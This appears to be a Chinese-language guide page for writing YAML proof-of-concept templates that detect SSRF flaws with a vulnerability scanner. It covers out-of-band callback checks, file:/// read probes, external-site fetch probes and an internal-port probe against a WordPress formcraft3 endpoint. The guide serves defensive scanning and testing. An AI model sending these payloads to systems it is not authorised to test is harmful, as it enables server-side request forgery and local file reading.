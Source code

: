 ```yaml
---
title: 'SSRF'
---
```


<Warning>切记SSRF检测的是能否正确从服务端`发出`请求，要严格与redirect区分。同时尽量去检测有回显的情况，如果确实无回显，那么使用反连平台即可</Warning>

## 无回显情况（Unrevealed）

<Info>这里的无回显指的是访问指定的地址没有`确切的返回结果`或者`报错信息`</Info>

无回显的SSRF较为容易进行匹配，在触发请求的地点使用`正确`的反连地址进行验证即可，同时在表达式中对反连平台返回的结果进行匹配。成功匹配就说明成功发送了

```yaml
name: poc-yaml-ssrf-reverse
transport: http
set:
    reverse: newReverse()
    reverseURL: reverse.url
rules:
    r0:
        request:
            cache: true
            method: POST
            path: /xxx
            headers:
                Content-Type: application/json
            body: |
                {"content": "include:\n remote: {{reverseURL}}"}
        expression: response.status == 200 && reverse.wait(5)
```

## 有回显情况（Revealed）

这个与无回显正好相反，访问指定的站点之后可能会出现一些可以进行匹配的特征。这里总结下之前见过的一些情况

### 文件读取类型（File Read）

```yaml
r0:
    request:
        cache: true
        method: POST
        path: /xxx
        headers:
            Content-Type: application/x-www-form-urlencoded
        body: |
            url=file:///{{filename}}
        follow_redirects: false
    expression: |
        response.status == 500 && response.body.bcontains(b"\"exception\":\"java.io.FileNotFoundException\",")
```

使用协议读取文件时，可以尝试去读取系统中存在的文件或者不存在的文件，依据response的内容与状态写出对应的匹配表达式即可

### 访问外部站点类型(External sites)

```yaml
r0:
    request:
        cache: true
        method: GET
        path: /xxx/http/example.com
        follow_redirects: true
    expression: response.status == 200 && response.body.bcontains(b"<title>Example Domain</title>") && response.body.bcontains(b"<h1>Example Domain</h1>")
```

<Warning>当访问外部站点时，一定需要注意的是能够访问的只是`公共站点`，一定不要请求一些私有项目的公开页面或者文件</Warning>

这个时候我们只要尝试去匹配返回结果中关于请求站点的相关内容即可。但是注意除了被访问页面的内容之外，我们一定要去匹配一些和被访问站点不同的内容，比如说状态码以及其他存在漏洞的站点中存在的内容

<Warning>但是这种方式是非常不推荐的，一方面是有目标不出网的可能性，另一方面当匹配内容与目标站点区分度不大时会有误报的风险</Warning>

### 访问内部站点类型（Internal sites）

```yaml
r0:
    request:
        cache: true
        method: GET
        path: /wp-admin/admin-ajax.php?action=formcraft3_get&URL=http://127.0.0.1:0
        follow_redirects: false
    expression: |
        response.status == 200 && response.body.bcontains(b"cURL error 3: ") && response.body.bcontains(b"failed")
```

这个例子说明了通过访问本地地址来验证SSRF漏洞的存在。一般这种情况下

- 尝试访问开放的端口，判断对应端口里返回的信息进行判断
    - 不推荐，开放的端口可能过于随机，且匹配的内容过于不固定
- 尝试访问一般情况下一定不开放或者不存在的端口，判断返回的报错信息进行判断
    - 较为推荐的写法

## 模板

[SSRF](/plugins/practice/poc/Template#ssrf-url)

